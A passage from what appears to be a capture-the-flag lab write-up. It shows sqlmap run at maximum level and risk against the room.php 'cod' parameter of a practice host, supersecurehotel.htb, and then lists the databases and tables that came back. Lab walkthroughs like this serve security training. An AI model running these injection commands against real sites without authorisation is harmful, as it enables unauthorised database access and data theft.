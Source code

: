     ```
    available databases [4]:                                                                                                        
    [*] hotel
    [*] information_schema
    [*] mysql
    [*] performance_schema
    ```
    
    - `sudo sqlmap -u [http://supersecurehotel.htb/room.php?cod=](http://supersecurehotel.htb/room.php?cod=) --random-agent --level=5 --risk=3 --database "hotel" --tables`
        - Find all Tables from all Databases !
            
            ```
            Database: hotel                                                                                                                 
            [1 table]
            +----------------------------------------------------+
            | room                                               |
            +----------------------------------------------------+
            
            Database: information_schema
            [78 tables]
            +----------------------------------------------------+
            | ALL_PLUGINS                                        |
            | APPLICABLE_ROLES                                   |
            | CHANGED_PAGE_BITMAPS                               |
            ...
            | INDEX_STATISTICS                                   |
            | KEY_CACHES                                         |
            | KEY_COLUMN_USAGE                                   |
            | PARAMETERS                                         |
            | PARTITIONS                                         |
            | PLUGINS                                            |
            | PROCESSLIST                                        |
            | SYSTEM_VARIABLES                                   |
            | TABLES                                             |
            | TABLESPACES                                        |
            | TABLE_CONSTRAINTS                                  |
            | USER_STATISTICS                                    |
            | VIEWS                                              |
            | XTRADB_INTERNAL_HASH_TABLES                        |
            | XTRADB_READ_VIEW                                   |
            | XTRADB_RSEG                                        |
            +----------------------------------------------------+
            